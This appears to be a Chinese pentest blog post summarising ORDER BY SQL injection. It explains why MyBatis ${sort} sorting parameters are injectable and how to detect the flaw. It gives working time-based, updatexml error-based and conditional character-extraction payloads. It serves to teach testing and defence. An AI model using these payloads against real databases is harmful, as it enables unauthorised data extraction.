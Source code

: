 ```yaml
---
layout: post
title: Order by 注入总结
categories: [Pen-test]
Description: Order by 注入总结
keywords: SQL
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


Description: Order by 注入总结.

## 判断order by注入

当你看到一个查询结果有排序小箭头时，要额外注意，这可能一个SORT(排序)键值，抓包后可能是这样的。

![](/images/orderbysql/1.png)

后端SQL语句就差不多类似

```shell
select * from table where id =1 order by zzf desc;
```

这种地方在java-mybatis环境中容易引发注入问题，原因很简单，在mybatis中order by ${sort}传的是列名不能用#{}，因此需要额外用白名单处理。有的开发没处理就有注入了。

如何判断这里有order by注入呢？很简单，原理跟最基础的联合注入利用order by爆破字段数量是一样的。
order by (1)  不报错
order by (10000000) 报错

这样就基本能判断出来这里有order by注入了。
当然也可以直接order by sleep(1)。

## order by注入利用

### 时间盲注

能用sleep(1)就能构造最简单的基于时间延迟的布尔盲注。

select * from test_table order by if(1=1,sleep(1),1);

![](/images/orderbysql/swappy-20241204-164412.png)

> 但它有个很大的缺点，就是有几条数据就重复几次sleep(1)。

### 报错注入

经典的updatexml()

```shell
select * from test_table  order by updatexml(1,concat(0x7e,(select user()),0x7e),1);
```

![](/images/orderbysql/swappy-20241204-164602.png)

## FUZZ

```shell
(case when substr(CURRENT_USER,1,1)='r' then rand(exp(99999999)) else 1 end)
```

![](/images/orderbysql/swappy-20241204-164812.png)
